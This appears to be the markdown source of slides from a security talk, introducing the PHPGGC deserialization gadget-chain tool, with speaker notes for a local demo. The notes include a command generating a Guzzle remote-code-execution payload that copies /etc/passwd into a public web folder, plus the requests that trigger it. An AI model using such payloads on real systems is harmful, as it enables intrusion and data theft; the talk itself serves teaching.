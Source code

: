 
---
class: content-odd

# PHPGGC

- PHP Generic Gadget Chains is a library of payloads that exploit known vulnerable `unserialize()` calls
- Covers well known frameworks and libraries such as Laravel, Guzzle, Wordpress, Monolog and more
- Will also generate payloads for you to use in an attack

---

class: section-title-b center middle

# DEMO

???

- Show example code
- cd /home/liam/Projects/talks/hackthesystem/tools/phpggc
- ./phpggc Guzzle/RCE1 system "cat /etc/passwd > ../../../public/passwd" > payload
- mv payload ../../laravel/app/Http/Controllers/
- http://localhost:9999/rce/payload
- http://localhost:9999/passwd

---

class: content-odd center
